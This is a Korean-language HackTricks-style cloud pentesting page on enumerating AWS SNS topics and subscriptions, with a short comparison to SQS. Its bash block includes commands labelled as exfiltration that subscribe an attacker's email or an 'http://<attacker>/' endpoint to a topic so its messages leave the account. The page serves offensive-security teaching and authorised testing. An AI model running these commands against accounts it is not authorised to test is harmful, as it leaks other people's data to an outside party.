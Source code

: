 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS)는 **완전 관리형 메시징 서비스**로 설명됩니다. 이 서비스는 **애플리케이션 간** (A2A) 및 **애플리케이션 대 개인** (A2P) 통신 유형을 모두 지원합니다.

A2A 통신을 위한 주요 기능에는 **게시/구독 (pub/sub) 메커니즘**이 포함됩니다. 이러한 메커니즘은 **주제**를 도입하여 높은 처리량의 **푸시 기반, 다대다 메시징**을 가능하게 합니다. 이 기능은 분산 시스템, 마이크로서비스 및 이벤트 기반 서버리스 아키텍처와 관련된 시나리오에서 매우 유리합니다. 이러한 주제를 활용함으로써 게시 시스템은 **광범위한 구독 시스템**에 메시지를 효율적으로 배포하여 팬아웃 메시징 패턴을 촉진할 수 있습니다.

### **Difference with SQS**

**SQS**는 **큐 기반** 서비스로, 포인트 투 포인트 통신을 허용하여 메시지가 **단일 소비자**에 의해 처리되도록 보장합니다. 이 서비스는 **최소 한 번 전달**을 제공하며, 표준 및 FIFO 큐를 지원하고, 재시도 및 지연 처리를 위한 메시지 보존을 허용합니다.\
반면에 **SNS**는 **게시/구독 기반 서비스**로, 메시지를 **여러 구독자**에게 동시에 방송하여 **일대다** 통신을 가능하게 합니다. 이 서비스는 **이메일, SMS, Lambda 함수 및 HTTP/HTTPS**와 같은 다양한 구독 엔드포인트를 지원하며, 타겟 메시지 전달을 위한 필터링 메커니즘을 제공합니다.\
두 서비스 모두 분산 시스템의 구성 요소 간의 분리를 가능하게 하지만, SQS는 큐 통신에 중점을 두고, SNS는 이벤트 기반 팬아웃 통신 패턴을 강조합니다.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**주제의 유형이 FIFO인 경우**, **SQS** 프로토콜을 사용하는 구독자만 사용할 수 있습니다 (HTTP 또는 HTTPS는 사용할 수 없습니다).

또한, `--topic-arn`에 지역이 포함되어 있더라도 **`--region`**에서 올바른 지역을 지정해야 하며, 그렇지 않으면 접근 권한이 없다는 오류가 발생하지만 문제는 지역입니다.
{% endhint %}

#### 인증되지 않은 접근

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 권한 상승

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### 포스트 익스플로잇

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 지속성

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 참고자료

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
